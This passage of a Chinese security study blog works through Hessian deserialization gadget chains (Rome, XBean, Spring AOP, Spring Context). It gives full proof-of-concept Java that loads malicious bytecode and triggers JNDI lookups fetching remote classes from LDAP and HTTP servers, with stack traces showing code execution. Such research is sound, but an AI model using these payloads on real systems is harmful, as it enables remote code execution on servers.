at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:87)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at javax.naming.spi.NamingManager.getContext(NamingManager.java:439)
at javax.naming.spi.ContinuationContext.getTargetContext(ContinuationContext.java:55)
at javax.naming.spi.ContinuationContext.composeName(ContinuationContext.java:180)
at com.caucho.naming.QName.toString(QName.java:353)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at java.util.AbstractMap.equals(AbstractMap.java:472)
at java.util.Hashtable.put(Hashtable.java:469)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:571)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2100)
at org.example.resin.resinQnamePoc.Hessian2_unserialize(resinQnamePoc.java:92)
at org.example.resin.resinQnamePoc.main(resinQnamePoc.java:46)
```

### TemplatesImpl && SignedObject

同时想到可以继续用 Rome 里面的 gadget，其中利用反序列化利用链来进行加载字节码达到RCE，但是没成功弹出计算器，debug 发现依旧是在这里报错了



跟踪报错栈帧 







发现此时的`_tfactory`没有被反序列化赋值，为null，从而报错空指针。重新 debug 看看

```java
protected HashMap<String, FieldDeserializer2> getFieldMap(Class<?> cl, FieldDeserializer2Factory fieldFactory) {
        HashMap<String, FieldDeserializer2> fieldMap;
        for(fieldMap = new HashMap(); cl != null; cl = cl.getSuperclass()) {
            Field[] fields = cl.getDeclaredFields();

            for(int i = 0; i < fields.length; ++i) {
                Field field = fields[i];
                if (!Modifier.isTransient(field.getModifiers()) && !Modifier.isStatic(field.getModifiers()) && fieldMap.get(field.getName()) == null) {
                    FieldDeserializer2 deser = fieldFactory.create(field);
                    fieldMap.put(field.getName(), deser);
                }
            }
        }

        return fieldMap;
    }
```

如果是 Transient\Static 修饰的就不处理，所以序列化就没成功，而`_tfactory`恰好为`transient`类型所修饰，因此无法被反序列化。

```java
private transient TransformerFactoryImpl _tfactory = null;
```

如何解决这个问题呢，很简单，二次反序列化即可，写出如下 poc

```java
package org.hessian.gadget;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.LinkedHashMap;
import java.util.Map;

public class romeTemplates {
    public static void main(String[] args) throws Exception{
        TemplatesImpl harmlessTemplates = new TemplatesImpl();

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.hessian.base.Evil.class.getName()).toBytecode()});
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        Map<Serializable, Serializable> innerMap = new HashMap<>();
        innerMap.put(equalsBean, "123");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) innerMap, kp.getPrivate(), Signature.getInstance("DSA"));


        byte[] data=serialize(signedObject);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(obj);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }
}
```

并没有成功，debug 发现由于最外层是个 SignedObject，所以 tag 不是 77，走的也就不是之前的链路了，因此我们需要自己加个入口，这里选择使用 BadAttributeValueExpException 类这样就能正常触发到 readMap 方法



最终 poc

```java
package org.hessian.gadget;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;
import java.util.Map;

public class romeTemplates {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.hessian.base.Evil.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean1 = new ToStringBean(Templates.class, templates);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);
        setFieldValue(badAttributeValueExpException,"val",toStringBean1);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(badAttributeValueExpException, kp.getPrivate(), Signature.getInstance("DSA"));

        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean2);

        Map<Serializable, Serializable> innerMap = new HashMap<>();
        innerMap.put(equalsBean, "123");


        byte[] data=serialize(innerMap);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(obj);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }
}
```

调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.security.SignedObject.getObject(SignedObject.java:180)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.EqualsBean.hashCode(EqualsBean.java:176)
at java.util.HashMap.hash(HashMap.java:338)
at java.util.HashMap.put(HashMap.java:611)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:577)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2093)
at org.hessian.gadget.romeTemplates.unserialize(romeTemplates.java:67)
at org.hessian.gadget.romeTemplates.main(romeTemplates.java:47)
```

### XBean

其实学 resin 反序列化的时候瞄了一眼这个链子，emm还是没能偷懒吗，oh nei gai

主要就是`org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding.getObject` + https://baozongwi.xyz/p/java-rome-deserialization/#hotswappabletargetsourcepoc

当我们到了`XString#equals`之后可以触发任意的 toString 方法，这里是触发`ContextUtil.ReadOnlyBinding`但是这个类继承 binding，所以是触发到了`binding#toString`

```java
public String toString() {
    return super.toString() + ":" + getObject();
}
```

隐式触发`ReadOnlyBinding#getObject`

```java
public Object getObject() {
    try {
        return ContextUtil.resolve(this.value, this.getName(), (Name)null, this.context);
    } catch (NamingException e) {
        throw new RuntimeException(e);
    }
}
```

接着触发到`ContextUtil#resolve`就和 resin-Qname 链一样了，并且使用的碰撞方式与之前不同，直接使用 HotSwappableTargetSource 进行碰撞

poc 如下

```java
package org.hessian.gadget;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.util.HashMap;
import java.util.Hashtable;

public class XBeanPoc {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8000/";
        String refClassName = "Eval";

        Reference ref = new Reference(refClassName, refClassName, refAddr);
        WritableContext writableContext = new WritableContext();

        String classname = "org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding";
        Object readOnlyBinding = Class.forName(classname).getDeclaredConstructor(String.class, Object.class, Context.class).newInstance("aaa", ref, writableContext);

        XString xString = new XString("bbb");

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(readOnlyBinding);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(xString);

        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");


//        HashMap<Object, Object> map1 = new HashMap<>();
//        HashMap<Object, Object> map2 = new HashMap<>();
//        map1.put("yy", xString);
//        map1.put("zZ", readOnlyBinding);
//        map2.put("zZ", xString);
//        map2.put("yy", readOnlyBinding);
//
//        Hashtable<Object, Object> table = new Hashtable<>();
//        table.put(map1, "1");
//        table.put(map2, "2");

//        byte[] data = serialize(table);
        byte[] data = serialize(hashMap);
        unserialize(data);

    }
    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(obj);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }
}
```

调用栈如下

```java
at Eval.<clinit>(Eval.java:12)
at java.lang.Class.forName0(Class.java:-1)
at java.lang.Class.forName(Class.java:348)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:72)
at com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:87)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at org.apache.xbean.naming.context.ContextUtil.resolve(ContextUtil.java:73)
at org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding.getObject(ContextUtil.java:204)
at javax.naming.Binding.toString(Binding.java:192)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:103)
at java.util.HashMap.putVal(HashMap.java:634)
at java.util.HashMap.put(HashMap.java:611)
at org.hessian.gadget.XBeanPoc.main(XBeanPoc.java:34)
```

### Spring AOP

学习 XBean Gadget 知道`HotSwappableTargetSource#equals`可以触发任意方法的 equals 方法，而在这条链子中就是`AbstractPointcutAdvisor#equals`

```java
public boolean equals(Object other) {
    if (this == other) {
        return true;
    } else if (!(other instanceof PointcutAdvisor)) {
        return false;
    } else {
        PointcutAdvisor otherAdvisor = (PointcutAdvisor)other;
        return ObjectUtils.nullSafeEquals(this.getAdvice(), otherAdvisor.getAdvice()) && ObjectUtils.nullSafeEquals(this.getPointcut(), otherAdvisor.getPointcut());
    }
}
```

使用 `ObjectUtils.nullSafeEquals` 方法比较当前对象与 `otherAdvisor` 的 `advice` 和 `pointcut` 属性，然后触发 getAdvice 和 getPointcut 方法。

```java
public static boolean nullSafeEquals(@Nullable Object o1, @Nullable Object o2) {
    if (o1 == o2) {
        return true;
    } else if (o1 != null && o2 != null) {
        if (o1.equals(o2)) {
            return true;
        } else {
            return o1.getClass().isArray() && o2.getClass().isArray() ? arrayEquals(o1, o2) : false;
        }
    } else {
        return false;
    }
}
```

要满足两个 AbstractPointcutAdvisor 对象相等，就是在对比其 Pointcut 切点和 Advice 是否为同一个。现在需要在 AbstractPointcutAdvisor 子类中寻找可用的 getAdvice\getPointcut 方法，发现`AbstractBeanFactoryPointcutAdvisor#getAdvice`

```java
public Advice getAdvice() {
        Advice advice = this.advice;
        if (advice != null) {
            return advice;
        } else {
            Assert.state(this.adviceBeanName != null, "'adviceBeanName' must be specified");
            Assert.state(this.beanFactory != null, "BeanFactory must be set to resolve 'adviceBeanName'");
            if (this.beanFactory.isSingleton(this.adviceBeanName)) {
                advice = (Advice)this.beanFactory.getBean(this.adviceBeanName, Advice.class);
                this.advice = advice;
                return advice;
            } else {
                synchronized(this.adviceMonitor) {
                    advice = this.advice;
                    if (advice == null) {
                        advice = (Advice)this.beanFactory.getBean(this.adviceBeanName, Advice.class);
                        this.advice = advice;
                    }

                    return advice;
                }
            }
        }
    }
```

会触发到 getBean 方法，`SimpleJndiBeanFactory#getBean`可以触发 lookup 方法，可以打JNDI注入





AbstractBeanFactoryPointcutAdvisor 是一个抽象类，不能直接实例化。使用它的具体实现类 DefaultBeanFactoryPointcutAdvisor，AbstractPointcutAdvisor也是一个抽象类，其实现类为AsyncAnnotationAdvisor，最终 poc 如下

```java
package org.hessian.gadget;

import com.caucho.hessian.io.*;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.HashMap;

public class springAopExp {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:1389/#Eval";

        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        beanFactory.setShareableResources(url);

        DefaultBeanFactoryPointcutAdvisor advisor1 = new DefaultBeanFactoryPointcutAdvisor();
        advisor1.setAdviceBeanName(url);
        advisor1.setBeanFactory(beanFactory);

        AsyncAnnotationAdvisor advisor2 = new AsyncAnnotationAdvisor();

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource("1");
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource("2");

        HashMap innerMap = new HashMap();
        innerMap.put(targetSource1, "aaa");
        innerMap.put(targetSource2, "bbb");

        setFieldValue(targetSource1, "target", advisor1);
        setFieldValue(targetSource2, "target", advisor2);

        HashMap outerMap = new HashMap();
        outerMap.put(innerMap, "ccc");

        byte[] data=serialize(outerMap);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(obj);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }
}
```

调用栈

```java
at org.springframework.jndi.JndiTemplate.lookup(JndiTemplate.java:178)
at org.springframework.jndi.JndiLocatorSupport.lookup(JndiLocatorSupport.java:96)
at org.springframework.jndi.support.SimpleJndiBeanFactory.doGetSingleton(SimpleJndiBeanFactory.java:220)
at org.springframework.jndi.support.SimpleJndiBeanFactory.getBean(SimpleJndiBeanFactory.java:113)
at org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor.getAdvice(AbstractBeanFactoryPointcutAdvisor.java:116)
at org.springframework.aop.support.AbstractPointcutAdvisor.equals(AbstractPointcutAdvisor.java:76)
at org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:104)
at java.util.HashMap.putVal(HashMap.java:634)
at java.util.HashMap.put(HashMap.java:611)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:573)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2093)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:577)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2093)
at org.hessian.gadget.springAopExp.unserialize(springAopExp.java:62)
at org.hessian.gadget.springAopExp.main(springAopExp.java:42)
```

### Spring Context & AOP

AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder 的 toString 方法，会打印 order 属性，调用 advisor 的 getOrder 方法。



需要找到类同时实现了 Advisor 和 Ordered 接口，于是找到了 AspectJPointcutAdvisor ，这个类的 getOrder 方法调用 AbstractAspectJAdvice 的 getOrder 方法。



接着会触发 AspectInstanceFactory 的 getOrder 方法，但是它是个接口，其实现类为 BeanFactoryAspectInstanceFactory



```java
    public int getOrder() {
        Class<?> type = this.beanFactory.getType(this.name);
        if (type != null) {
            return Ordered.class.isAssignableFrom(type) && this.beanFactory.isSingleton(this.name) ? ((Ordered)this.beanFactory.getBean(this.name)).getOrder() : OrderUtils.getOrder(type, Integer.MAX_VALUE);
        } else {
            return Integer.MAX_VALUE;
        }
    }
```

可以触发到 getType 方法，依旧使用 SimpleJndiBeanFactory
